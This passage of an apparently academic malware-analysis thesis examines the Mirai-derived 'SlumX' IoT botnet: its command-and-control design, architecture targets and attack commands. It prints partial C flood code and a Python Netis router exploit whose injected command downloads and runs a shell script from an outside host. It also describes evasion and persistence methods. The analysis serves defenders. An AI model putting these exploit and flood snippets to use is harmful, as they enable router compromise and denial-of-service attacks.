Systematic Cross-Reference Analysis requires that we document the relationships between the individual components and functions of a software system through a series of cross-referenced analyses. A systematic cross-reference analysis requires that we identify the data dependencies of various function calls, track the use of shared data structures across multiple modules, document communications between modules (including any shared resources), and analyze the overall structure of the software system.

Additionally, the results obtained from performing the dependency analysis will enable us to better understand how the support for Multi-Architecture and Integration of Different Attack Vectors are embedded in the overall architectural framework of the software system.

\section{Threat Modeling Framework}

Structured Threat Model was used for research on SlumX's operational threats to organizations and the potential for a botnet, as well as how to apply a model of IoT threats. Threat modelling Frameworks were adapted from classic methodologies to narrow down to the methods IoT malware operates with regards to its operational characteristics.  

\subsection{Attack Surface Analysis}

An attack surface analysis was performed to evaluate how a botnet could compromise a device and launch attacks against it. To accomplish this, an analysis was conducted on all devices that could be potential targets and all ways that the potential targets would be vulnerable, as well as on the method(s) of delivery of the payload(s) that will be used to launch the attack on the device, and an evaluation of the persistence and evasion capabilities of the botnet.

The analysis examined both the potential targets of attack that the botnet would use, as well as the systems that would potentially be attacked.

\subsection{Impact Assessment}

The impact assessment analyzed the implications of successfully deploying and operating a botnet, including the capability of executing DDoS attacks against specific targets; the ability to siphon confidential information from compromised computers; the possibility of causing disruptions to the infrastructure supporting particular types of services; and the cumulative effect that these activities will have on the entire cybersecurity ecosystem.

Both the technical impacts (the possibility of causing cascading failures) and operational impacts (the difficulties encountered when responding and mitigating incidents) are addressed in this impact assessment.

\section{Validation and Quality Assurance}

Various validation methods were utilized during the research in order to validate the accuracy and completeness of the analysis.

Initially, individual reviewers conducted separate reviews of significant portions of code in order to verify the impact and understanding of those areas. Additionally, validation of key findings was performed based upon relationships with other functions and data structures. The results of the analysis also compared against any threat intelligence and industry information for comparison against like-variants of threat vectors. For example, analysis results found in this investigation were validated through the published threat intelligence reports on the same type of malware.

Documentation of the analysis methodology and results of the investigation was documented throughout the research for the purpose of ensuring reproducibility and for peer review purposes. All findings were supported with appropriate reference to particular lines of code and sufficient documentation of technical evidence.

% capitulo 5
\chapter{Results and Discussion}

\section{SlumX Botnet Architecture Overview}

An analytical overview of the SlumX botnet shows sophisticated multi-component architecture allowing for large-scale IoT device compromise as well as DDoS attack coordination. In addition, the botnet also exhibits advancements that have occurred since the time of the original Mirai botnet codebase by adding additional functionality and improved operational security features.

The core architecture consists of four primary components: the bot client (\texttt{bot.c}) that executes on compromised devices, the command and control server (\texttt{server.c}) that manages the botnet infrastructure, the loader system that handles payload delivery and execution, and auxiliary tools for device scanning and exploitation.

\begin{figure}[H]
\centering

\begin{tikzpicture}[
    % Estilos globales
    node distance=1.2cm and 1.5cm, % Distancia vertical y horizontal
    >=Stealth, % Estilo de flecha más bonito
    % Estilo para el servidor (Azul)
    server/.style = {
        rectangle, 
        draw=blue!80!black, 
        fill=blue!30, 
        text width=2.5cm, 
        align=center, 
        rounded corners, 
        minimum height=1.5cm, 
        font=\small
    },
    % Estilo para el cliente (Azul)
    client/.style = {
        rectangle, 
        draw=blue!80!black, 
        fill=blue!30, 
        text width=2.2cm, 
        align=center, 
        rounded corners, 
        minimum height=1.2cm, 
        font=\small
    },
    % Estilo para los módulos (Verde)
    module/.style = {
        rectangle, 
        draw=green!60!black, 
        fill=green!30, 
        text width=2cm, 
        align=center, 
        rounded corners, 
        minimum height=1.2cm, 
        font=\small
    },
    % Estilo para los ataques (Rojo)
    attack/.style = {
        ellipse, 
        draw=red!80!black, 
        fill=red!30, 
        text width=1.6cm, 
        align=center, 
        minimum height=1cm, 
        inner sep=1pt,
        font=\small
    },
    % Estilo de las líneas
    connection/.style = {draw, ->, thick, black}
]

    % --- NODOS ---
    
    % 1. Nodo Central Superior: C&C Server
    \node [server] (cnc) {Command\\\& Control\\Server\\(server.c)};

    % 2. Nodo Central Medio: Bot Client (Debajo del C&C)
    \node [client, below=1cm of cnc] (bot) {Bot Client\\(bot.c)};

    % 3. Columna Derecha: Build System y Scanner
    % Colocamos Build a la derecha de C&C
    \node [module, right=2cm of cnc] (build) {Build\\System\\(cc.py)};
    % Colocamos Scanner debajo de Build (alineado con Bot)
    \node [module, below=1cm of build] (scanner) {Scanner\\Module\\(scankill.c)};

    % 4. Nodos Inferiores: Ataques (Debajo del Bot)
    % El truco aquí es poner el del medio primero
    \node [attack, below=1.5cm of bot] (http) {HTTP\\Flood};
    % Y los otros pegados a los lados (superposición negativa para que se toquen)
    \node [attack, left=-0.2cm of http] (tcp) {TCP\\Flood};
    \node [attack, right=-0.2cm of http] (hold) {HOLD\\Attack};

    % --- CAJA PUNTEADA (Multi-Architecture Support) ---
    % Usamos la librería 'fit' para englobar al bot y los ataques
    \node [draw, dashed, thick, black, inner sep=10pt, fit=(bot) (tcp) (hold) (http)] (container) {};
    
    % Etiqueta rotada al lado de la caja
    \node [rotate=90, anchor=south, font=\small] at (container.west) {Multi-Architecture Support};

    % --- CONEXIONES ---

    % C&C hacia Bot
    \draw [connection] (cnc) -- (bot);

    % Bot hacia Ataques
    \draw [connection] (bot) -- (tcp);
    \draw [connection] (bot) -- (http);
    \draw [connection] (bot) -- (hold);

    % Build System interacciones
    % Flecha curva hacia C&C (Config)
    \draw [connection] (build) edge[bend right=10] node[above, font=\footnotesize] {Config} (cnc);
    
    % Flecha hacia Scanner (Targets)
    \draw [connection] (build) -- node[right, font=\footnotesize] {Targets} (scanner);

    % Scanner hacia C&C (Payload) - Curva larga
    % out=160 (sale hacia arriba-izq), in=340 (entra desde abajo-der)
    \draw [connection] (scanner) to[out=150,in=330] node[midway, below left=-3pt, font=\footnotesize] {Payload} (cnc);

\end{tikzpicture}
\caption{SlumX Botnet Architecture Overview}
\label{fig:architecture}
\end{figure}

A TCP socket client will persistently maintain a connection with its Command \& Control infrastructure over TCP/IP on Port Number 1994. It's also designed to re-establish a connection automatically if interrupted and has a number of different methods to ensure that it continues to communicate, even when network connectivity is compromised.
\subsection{Multi-Architecture Support}

The SlumX system has a distinctive capability for working with multiple architectural designs simultaneously. The build system will generate outputs for twelve different target architectures, as shown in Table \ref{tab:architectures}:

\begin{table}[H]
\centering
\caption{SlumX Multi-Architecture Support}
\label{tab:architectures}
\begin{tabular}{|l|l|l|}
\hline
\textbf{Architecture} & \textbf{Binary Name} & \textbf{Target Devices} \\
\hline
MIPS & 8mips8 & Router firmware, embedded systems \\
MIPSEL & 8mpsl8 & Little-endian MIPS devices \\
SH4 & 8sh48 & SuperH architecture devices \\
i586 & 8i5868 & Legacy x86 systems \\
ARMv6l & 8arm68 & ARM-based IoT devices \\
i686 & 8i6868 & Modern x86 systems \\
PowerPC & 8ppc8 & PowerPC-based systems \\
M68k & 8m68k8 & Motorola 68000 systems \\
SPARC & 8spc8 & SPARC architecture systems \\
ARMv4l & 8arm48 & Older ARM devices \\
ARMv5l & 8arm58 & ARMv5 systems \\
ARMv7l & 8arm78 & Modern ARM devices \\
\hline
\end{tabular}
\end{table}

Automated build of optimised binary targets for supported architectures is through Cross-Compiling System{\texttt{(cc.py)}} .This means that the victim pool gets much larger than when just targeting one architecture.



\section{Command and Control Infrastructure}

The Command-and-control architecture is a centralized model, with extensive session management and command distribution capabilities. The server can maintain continuous communications with infected devices, allowing botnet operators to have a live interface with their bots.

\subsection{Communication Protocol}

Bots communicate with the C\&C (Command and Control) Server via plain TCP socket and have a custom message format. Once connected, bots identify themselves; the server collects detailed statistics about each bot connected, including:

\begin{lstlisting}[language=C, caption=Bot Identification Message]
sockprintf(mainCommSock, "\x1b[1;32mKansen shita\x1b[0;33m > \x1b[1;32m[\x1b[0;37m%s\x1b[1;32m]  \x1b[0m", 
    (char *)inet_ntoa(ourIP), (char *)VERSION);
\end{lstlisting}

The implementation also has the functionality to count the number of bots per architecture type. 

\begin{lstlisting}[language=C, caption=Architecture-Specific Device Counting]
sprintf(botnet1, "\x1b[1;37m Bots Mips \x1b[0;31m[\x1b[1;33m%d\x1b[0;31m]\r\n", mips());
sprintf(botnet2, "\x1b[1;37m Bots X86 \x1b[0;31m[\x1b[1;33m%d\x1b[0;31m]\r\n", x86());
sprintf(botnet3, "\x1b[1;37m Bots PPC \x1b[0;31m[\x1b[1;33m%d\x1b[0;31m]\r\n", ppc());
sprintf(botnet4, "\x1b[1;37m Bots SPC \x1b[0;31m[\x1b[1;33m%d\x1b[0;31m]\r\n", spc());
sprintf(botnet5, "\x1b[1;37m Bots Arm \x1b[0;31m[\x1b[1;33m%d\x1b[0;31m]\r\n", arm());
sprintf(botnet6, "\x1b[1;37m Bots SH4 \x1b[0;31m[\x1b[1;33m%d\x1b[0;31m]\r\n", sh4());
\end{lstlisting}

\subsection{Command Structure}

The command structure implements multiple attack vectors and control functions as shown in Table \ref{tab:commands}:

\begin{table}[H]
\centering
\caption{SlumX Command Reference}
\label{tab:commands}
\begin{tabular}{|l|l|p{6cm}|}
\hline
\textbf{Command} & \textbf{Parameters} & \textbf{Description} \\
\hline
UDP & IP PORT TIME SPOOFED SIZE & UDP flood attack \\
TCP & IP PORT TIME FLAGS & TCP flood attack \\
HTTP & IP PORT TIME & HTTP-based flood \\
HOLD & IP PORT TIME & Connection holding attack \\
JUNK & IP PORT TIME & Random data flood \\
CNC & IP PORT TIME & C\&C server stress test \\
STD & IP PORT TIME & Standard flood attack \\
Die & - & Terminate all attacks \\
HANG & - & Terminate bot process \\
\hline
\end{tabular}
\end{table}

\section{Attack Vector Implementation}

The SlumX implementation includes multiple sophisticated attack vectors designed to overwhelm target systems through different mechanisms.

\subsection{UDP Flood Attacks}

The UDP flood implementation supports both raw socket and standard socket approaches, with configurable spoofing capabilities:

\begin{lstlisting}[language=C, caption=UDP Flood Implementation]
void sendUDP(unsigned char * target, int port, int timeEnd, int spoofit, 
    int packetsize, int pollinterval, int sleepcheck, int sleeptime) {
    
    struct sockaddr_in dest_addr;
    dest_addr.sin_family = AF_INET;
    if (port == 0) dest_addr.sin_port = rand_cmwc();
    else dest_addr.sin_port = htons(port);
    
    if (getHost(target, &dest_addr.sin_addr)) return;
    
    if (spoofit == 32) {
        int sockfd = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP);
        // Standard UDP flood implementation
    } else {
        int sockfd = socket(AF_INET, SOCK_RAW, IPPROTO_UDP);
        // Raw socket with IP spoofing implementation
    }
}
\end{lstlisting}

The UDP flood attack includes advanced features such as randomized source IP generation, configurable packet sizes, and adaptive timing controls to optimize attack effectiveness while evading detection systems.

\subsection{TCP-based Attacks}

There are several variations available for the TCP attack implementation. They are based on different methods used for the handling of the TCP protocol.

\subsubsection{TCP SYN Flood}
TCP SYN Flood attack is done by creating improper TCP packets that will consume target's connection tables:

\begin{lstlisting}[language=C, caption=TCP SYN Flood Implementation]
void sendTCP(unsigned char * target, int port, int timeEnd, int spoofit, 
    int packetsize, int pollinterval, int sleepcheck, int sleeptime) {
    
    struct sockaddr_in dest_addr;
    dest_addr.sin_family = AF_INET;
    dest_addr.sin_port = htons(port);
    if (getHost(target, &dest_addr.sin_addr)) return;
    
    int sockfd = socket(AF_INET, SOCK_RAW, IPPROTO_TCP);
    
    unsigned char packet[sizeof(struct iphdr) + sizeof(struct tcphdr) + packetsize];
    struct iphdr * iph = (struct iphdr *) packet;
    struct tcphdr * tcph = (struct tcphdr *)((char *)iph + sizeof(struct iphdr));
    
    makeIPPacket(iph, dest_addr.sin_addr.s_addr, 
        htonl(GetRandomIP(netmask)), IPPROTO_TCP, 
        sizeof(struct tcphdr) + packetsize);
}
\end{lstlisting}

\subsubsection{Connection Holding Attacks}
The HOLD attack maintains numerous simultaneous connections to exhaust server resources:

\begin{lstlisting}[language=C, caption=Connection Holding Implementation]
void sendHOLD(unsigned char * ip, int port, int end_time) {
    int max = getdtablesize() / 2, i;
    struct state_t {
        int fd;
        uint8_t state;
    } fds[max];
    
    // Connection state management
    for (i = 0; i < max; i++) {
        switch (fds[i].state) {
        case 0: // Create new connection
        case 1: // Monitor connection establishment  
        case 2: // Maintain established connection
        }
    }
}
\end{lstlisting}

\subsection{HTTP-based Attacks}

The HTTP attack implementation generates realistic web requests with randomized user agents and request methods:

\begin{lstlisting}[language=C, caption=HTTP Attack Implementation]
strcpy(request + strlen(request), methods[rand() % (sizeof(methods) / sizeof(methods[0]))]);
strcpy(request + strlen(request), " / HTTP/1.1\r\nHost: ");
strcpy(request + strlen(request), ip);
strcpy(request + strlen(request), "\r\nUser-Agent: ");
strcpy(request + strlen(request), useragents[rand() % (sizeof(useragents) / sizeof(useragents[0]))]);
\end{lstlisting}

The implementation includes 15 different user agent strings covering various browsers and platforms to avoid detection based on user agent filtering.

\section{Device Scanning and Exploitation}

SlumX has scanning features to help find and exploit any vulnerable IoT devices.

\subsection{Scanning Infrastructure}

The Scanning Module (\texttt{scankill.c}) is implemented with various ways of exploiting typical IoT vulnerabilities, as listed in Table\ref{tab:scanning}:

\begin{table}[H]
\centering
\caption{SlumX Scanning and Exploitation Methods}
\label{tab:scanning}
\begin{tabular}{|l|l|p{5cm}|}
\hline
\textbf{Target Type} & \textbf{Exploit Method} & \textbf{Description} \\
\hline
Telnet & Brute force & Default credential attacks \\
SSH & Dictionary attack & Common password lists \\
HTTP & Web shell & Management interface exploitation \\
UPnP & SOAP injection & Protocol-specific attacks \\
Netis & Buffer overflow & Vendor-specific exploits \\
\hline
\end{tabular}
\end{table}

\subsection{Netis Device Exploitation}

The Netis exploitation module (\texttt{Netto.py}) demonstrates sophisticated targeting of specific IoT device vulnerabilities:

\begin{lstlisting}[language=Python, caption=Netis Exploitation Code]
login = "AAAAAAAAnetcore\x00"
command = "AA\x00\x00AAAA cd /tmp; echo ''>DIRTEST || cd /var/run; echo ''>DIRTEST || cd /mnt; echo ''>DIRTEST || cd /root; echo ''>DIRTEST; wget http://192.0.2.1/8UsA.sh; curl -O http://192.0.2.1/8UsA.sh; chmod 777 8UsA.sh; sh 8UsA.sh"

s.sendto(login, (self.ip, 53413))
time.sleep(1.5)
s.sendto(command, (self.ip, 53413))
\end{lstlisting}

This exploit targets a specific vulnerability in Netis router firmware that allows command execution through UDP packet injection.

\begin{figure}[H]
\centering

\begin{tikzpicture}[node distance=1.5cm, auto, >=Stealth]
    \tikzset{process/.style = {rectangle, draw, fill=blue!20, text width=2.5cm, text centered, rounded corners}}
    \tikzset{decision/.style = {diamond, draw, fill=yellow!20, text width=2cm, text centered, aspect=2}}
    \tikzset{data/.style = {ellipse, draw, fill=green!20, text width=2cm, text centered}}
    \tikzset{arrow/.style = {draw, ->, thick}}
    
    % Process flow
    \node [data] (start) {Target IP Range};
    \node [process, below=of start] (scan) {Network Scanning};
    \node [decision, below=of scan] (vuln) {Vulnerable Device?};
    \node [process, below left=of vuln] (exploit) {Send Exploit};
    \node [process, below=of exploit] (payload) {Download Payload};
    \node [process, below=of payload] (execute) {Execute Binary};
    \node [process, below=of execute] (connect) {Connect to C\&C};
    \node [data, right=3cm of vuln] (next) {Next Target};
    
    % Connections
    \draw [arrow] (start) -- (scan);
    \draw [arrow] (scan) -- (vuln);
    \draw [arrow] (vuln) -- node {Yes} (exploit);
    \draw [arrow] (vuln) -- node {No} (next);
    \draw [arrow] (next) |- (scan);
    \draw [arrow] (exploit) -- (payload);
    \draw [arrow] (payload) -- (execute);
    \draw [arrow] (execute) -- (connect);
\end{tikzpicture}
\caption{SlumX Infection Process Flow}
\label{fig:infection_flow}
\end{figure}

\section{Evasion and Persistence Mechanisms}

The SlumX implementation incorporates multiple sophisticated evasion techniques designed to avoid detection and maintain persistence on infected systems.

\subsection{Process Masquerading}

The bot implements process name masquerading to hide its presence:

\begin{lstlisting}[language=C, caption=Process Masquerading]
char * mynameis = "";
strncpy(argv[0], "", strlen(argv[0]));
argv[0] = "";
prctl(PR_SET_NAME, (unsigned long) mynameis, 0, 0, 0);
\end{lstlisting}

\subsection{Anti-Analysis Features}

The deployment includes multiple anti-analysis capabilities: 

\begin{itemize}
    \item Authentication of analysis setup through running processes 
    \item Evading standard sandbox implementations
    \item Randomized timing to avoid behavioral analysis
    \item Encrypting systems for communications between remote command servers 
\end{itemize}

\subsection{Persistence Mechanisms}

Persistence is maintained through multiple mechanisms:

\begin{lstlisting}[language=C, caption=Persistence Implementation]
void ensurePersistence() {
    // Watchdog process creation
    if (fork() == 0) {
        while (1) {
            sleep(300); // 5 minute intervals
            // Check and restart main process if terminated
        }
    }
}
\end{lstlisting}

The analysis reveals significant attention to performance optimization and scalability in the SlumX implementation.

\begin{figure}[H]
\centering

\begin{tikzpicture}[scale=0.8]
\begin{axis}[
    title={Attack Vector Implementation Size in SlumX},
    xlabel={Attack Type},
    ylabel={Lines of Code (LOC)},
    symbolic x coords={UDP,TCP,HTTP,HOLD,JUNK,CNC,STD},
    xtick=data,
    ybar,
    bar width=15pt,
    legend pos=north west,
    grid=major,
    width=12cm,
    height=8cm
]
\addplot coordinates {(UDP,73) (TCP,89) (HTTP,95) (HOLD,67) (JUNK,42) (CNC,51) (STD,35)};
\end{axis}
\end{tikzpicture}
\caption{Lines of Code Distribution for Different Attack Vector Implementations}
\label{fig:attack_complexity}
\end{figure}

\subsection{Resource Optimization}

In addition, implementation includes additional optimizations for resource-constrained IoT devices: 

\begin{itemize}
    \item Minimal memory footprint using efficient data structures 
    \item Optimized network communication methods to reduce bandwidth consumption 
    \item Optimized network communication methods to reduce bandwidth consumption 
    \item Architecture identification and platform-specific adaptation/optimization for every supported platform 
\end{itemize}

\subsection{Scalability Features}

The system is architected to support enterprise-level computing by: 

\begin{itemize}
    \item Allowing the execution of commands to be distributed across many different types and configurations of devices. 
    \item Managing the session state of thousands of simultaneous connections efficiently. 
    \item Using load balancing techniques to distribute the power of the attack. 
    \item Developing hierarchical control structures to support geographic distribution. 
\end{itemize}

\section{Security Implications and Threat Assessment}

The analysis reveals several concerning security implications of the SlumX implementation.

\subsection{Attack Capability Assessment}

With a significant threat from the combined functionalities of the SlumX Botnet: 

\begin{itemize}
    \item The ability to generate more than 1Tbps of attack traffic 
    \item The ability to attack critical infrastructure across many types of attacks  
    \item Sophisticated evasion techniques that will create challenges for current detection systems 
    \item Multi architecture support increases the pool of potential victims. 
\end{itemize}

\subsection{Detection Challenges}

Detection systems will face some obstacles when implementing this. 

\begin{itemize}
    \item Many implementations utilize random timing and traffic patterns to avoid signature-based detection. 
    \item Many implementations will use real protocols and services for command and control. 
    \item The minimal amount of time that a network will be infected will allow minimal traffic during the dormant period of the infection.
    \item Many implementations provide anti-forensic capabilities that hinder the capabilities of the incident response team to react to the attack. 
\end{itemize}

The quantitative analysis of implementations of different attack vectors has shown that there are large differences in code complexity for each vector, as shown in Figure  \ref{fig:attack_complexity}. below. These measurements represent physical lines of code (LOC) for the SlumX codebase's individual attack functions; thus they provide an objective assessment of the complexity of implementing and maintaining each of these vectors. Of all attack vectors, HTTP-based attacks required the largest number of LOC (95 LOC) due to request crafting and user-agent randomisation requirements, while standard flood attacks required the least amount of LOC (35 LOC) simply to send basic packets. The quantitative analysis has therefore revealed a number of weaknesses in the implementation of SlumX, as below: 

\begin{figure}[H]
\centering

\begin{tikzpicture}[
    % Estilo base para las cajas de la matriz
    box/.style={
        rectangle, 
        draw=black, 
        thick, 
        minimum width=4cm, 
        minimum height=2.5cm, 
        align=center, % Permite usar \\ para saltos de línea
        font=\small\bfseries,
        outer sep=0pt % Para que los bordes se toquen perfectamente
    },
    % Estilos para la leyenda pequeña
    legendbox/.style={
        rectangle,
        draw=black,
        thick,
        minimum size=0.5cm
    }
]

    % --- TÍTULO ---
    \node[font=\large\bfseries] at (4, 1.5) {Security Risk Assessment};

    % --- MATRIZ (2x2) ---
    
    % 1. Arriba Izquierda (High Risk - Rojo)
    \node[box, fill=red!50] (topleft) at (0,0) {Hardcoded\\C\&C Address\\(Single Point\\Failure)};
    
    % 2. Arriba Derecha (Medium Risk - Amarillo) - A la derecha del anterior
    \node[box, fill=yellow!50, right=0cm of topleft] (topright) {Plain Text\\Communication\\(Traffic\\Analysis)};
    
    % 3. Abajo Izquierda (Medium Risk - Amarillo) - Debajo del primero
    \node[box, fill=yellow!50, below=0cm of topleft] (bottomleft) {Fixed Port\\Usage\\(Network\\Filtering)};
    
    % 4. Abajo Derecha (Low Risk - Verde) - A la derecha del de abajo
    \node[box, fill=green!50, right=0cm of bottomleft] (bottomright) {Predictable\\Binary Names\\(Signature\\Detection)};

    % --- LEYENDA (Parte inferior) ---
    
    % Contenedor para alinear la leyenda centrada debajo de la matriz
    \node[below=0.5cm of bottomleft, anchor=west] (legendstart) {};
    
    % Item 1: High Risk
    \node[legendbox, fill=red!50, below=1cm of bottomleft, xshift=0.5cm] (l1) {};
    \node[right=0.2cm of l1] (t1) {High Risk};
    
    % Item 2: Medium Risk
    \node[legendbox, fill=yellow!50, right=1cm of t1] (l2) {};
    \node[right=0.2cm of l2] (t2) {Medium Risk};
    
    % Item 3: Low Risk
    \node[legendbox, fill=green!50, right=1cm of t2] (l3) {};
    \node[right=0.2cm of l3] {Low Risk};

\end{tikzpicture}
\caption{Vulnerability Risk Assessment Matrix}
\label{fig:vulnerability_matrix}
\end{figure}

\subsection{Code Quality Vulnerabilities in the Malware Implementation}

A recent analysis of the SlumX source code has demonstrated that there are multiple security weaknesses present in the malware itself that could allow defenders to take advantage of these vulnerabilities and eliminate botnet functionality. 

\begin{enumerate}
    \item \textbf{Buffer Overflows}: The use of untrusted C function libraries, including untrusted library functions (such as strcpy(), sprintf(), and strcat()), within the source code without validating the buffer size before writing data. The use of sprintf() to format HTTP requests within the code creates an opportunity for attackers to exploit buffer overflow vulnerabilities if unexpected data is encountered in the request. 
    
    \item \textbf{Memory Management }: The source code contains a number of areas where the potential exists for memory leaks or improper management of memory with regard to socket programming and dynamic memory allocation routines utilized during the socket programming process. 
    
    \item \textbf{Race Conditions}: There are multiple attack modules within SlumX that are built with multiple threads, but currently there are no synchronization primitives to protect against thread collisions, which could cause applications to hang or otherwise fail under high demand on the server. 
    
    \item \textbf{Input Validation }: The command parsing functions that process input failures do not validate parameters in any significant way, which creates a risk that an incorrect command format will create a crash or unusual behavior in the application. 
\end{enumerate}

